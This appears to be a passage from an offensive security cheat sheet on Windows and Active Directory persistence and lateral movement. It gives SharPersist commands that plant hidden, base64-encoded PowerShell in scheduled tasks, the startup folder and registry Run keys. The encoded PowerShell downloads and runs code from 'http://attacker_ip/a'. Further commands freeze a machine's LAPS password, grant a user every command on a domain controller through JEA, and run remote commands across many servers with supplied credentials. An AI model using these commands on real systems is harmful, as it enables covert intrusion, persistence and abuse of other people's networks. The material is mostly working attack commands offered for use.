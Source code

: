 `SharPersist.exe` can be used for local persistence on a workstation.

Common userland persistences:

* HKCU / HKLM Registry Autoruns
* Scheduled Tasks
* Startup Folder

```powershell
#Convert command to execute to base64
$str = 'IEX ((new-object net.webclient).downloadstring("http://attacker_ip/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

#Via scheduled task
.\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64>" -n "Updater" -m add -o hourly

#Via startup folder
.\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64>" -f "UserEnvSetup" -m add

#Via registry key, first create a .exe beacon named updater.exe, then
.\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```

### LAPS persistence

To prevent a machine to update its LAPS password, it is possible to set the update date in the futur.

```powershell
Set-DomainObject -Identity <target_machine> -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

### JEA persistence

Allows every commands to a user on a machine.

```powershell
Set-JEAPermissions -ComputerName dc -SamAccountName user1 -Verbose

Enter-PSSession -ComputerName dc -ConfigurationName microsoft.powershell64
```

## Lateral Movement

### PowerShell remoting

#### From one computer to other ones

```powershell
$sess = New-PSSession -ComputerName <computername>
Enter-PSSession -Session $sess

#Provide PS credentials
New-PSSession -Credential $cred

#To many computers
Invoke-Command -Credential $cred -ComputerName (Get-Content ./listServers.txt)
```
